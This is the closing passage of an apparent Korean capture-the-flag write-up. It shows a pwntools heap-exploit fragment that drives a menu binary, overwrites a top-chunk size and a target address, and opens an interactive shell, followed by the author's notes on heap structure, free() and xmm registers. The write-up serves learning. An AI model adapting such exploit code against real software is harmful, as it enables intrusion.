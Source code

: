     p.recvuntil("> ")
    p.send("3")
    
    p.recvuntil("> ")
    p.sendline("1")
    p.send(p64(0x20fb1)+p64(0x601060))
    
    p.recvuntil("> ")
    p.sendline("3")
    
    p.recvuntil("> ")
    p.sendline("a")
    
    
    p.interactive()

<br><br>

### 4. 몰랐던 개념

- 힙의 구조 및 free 원리
- xmm0 레지스터 → 기본적으로 알고 있는 범용 레지스터 이외에 16바이트를 저장하는 xmm 레지스터가 있다

힙 익스의 많은 기술이 들어간 문제는 아니였지만, 힙의 구조를 아예 모르며 접근하기 힘든 문제였다. 힙에서 메모리 관리방법과 free하는 원리를 따로 정리해야 겠다. 앞으로 나올 어려운 힙문제를 위해..